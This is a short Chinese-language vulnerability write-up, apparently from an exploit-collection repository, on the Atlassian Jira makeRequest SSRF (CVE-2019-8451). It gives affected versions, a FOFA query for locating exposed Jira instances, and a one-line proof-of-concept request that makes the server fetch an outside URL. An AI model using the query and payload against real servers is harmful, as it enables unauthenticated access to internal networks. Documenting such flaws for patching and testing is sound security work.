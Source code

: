 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241427027.png)

验证POC

```
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![](./images/202205241427776.png)